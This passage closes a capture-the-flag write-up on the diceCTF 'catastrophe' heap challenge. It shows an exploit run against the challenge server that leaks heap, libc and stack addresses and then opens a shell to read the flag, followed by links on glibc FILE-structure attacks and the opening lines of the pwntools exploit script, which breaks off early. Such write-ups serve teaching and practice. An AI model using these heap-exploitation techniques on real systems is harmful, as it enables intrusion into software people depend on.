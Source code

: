 And here we are:
```bash
nasm@off:~/Documents/pwn/diceCTF/catastrophe/f2$ python3 sexploit.py REMOTE HOST=mc.ax PORT=31273
[*] '/home/nasm/Documents/pwn/diceCTF/catastrophe/f2/catastrophe'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to mc.ax on port 31273: Done
/home/nasm/.local/lib/python3.10/site-packages/pwnlib/tubes/tube.py:822: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  res = self.recvuntil(delim, timeout=timeout)
[*] heap @ 0x559cb0184000
[*] libc: 0x7efe8a967000
[*] environ: 0x7efe8ab88200
[*] stdout: 0x7efe8ab81780
[*] stack: 0x7ffe06420710
[*] Switching to interactive mode
$ id
uid=1000 gid=1000 groups=1000
$ ls
flag.txt
run
$ cat flag.txt
hope{apparently_not_good_enough_33981d897c3b0f696e32d3c67ad4ed1e}
```

# Resources
- [a1ex.online](https://a1ex.online/2020/10/01/glibc-IO%E6%BA%90%E7%A0%81%E5%88%86%E6%9E%90/)
- [ray-cp](https://ray-cp.github.io/archivers/IO_FILE_arbitrary_read_write)
- [Mutepig's Blog](http://blog.leanote.com/post/mut3p1g/file-struct)

# Appendices

Final exploit:
```py
#!/usr/bin/env python
# -*- coding: utf-8 -*-

# this exploit was generated via
# 1) pwntools
# 2) ctfmate

import os
import time
import pwn


# Set up pwntools for the correct architecture
exe = pwn.context.binary = pwn.ELF('catastrophe')
pwn.context.delete_corefiles = True
pwn.context.rename_corefiles = False
pwn.context.timeout = 2000

host = pwn.args.HOST or '127.0.0.1'
port = int(pwn.args.PORT or 1337)


def local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if pwn.args.GDB:
```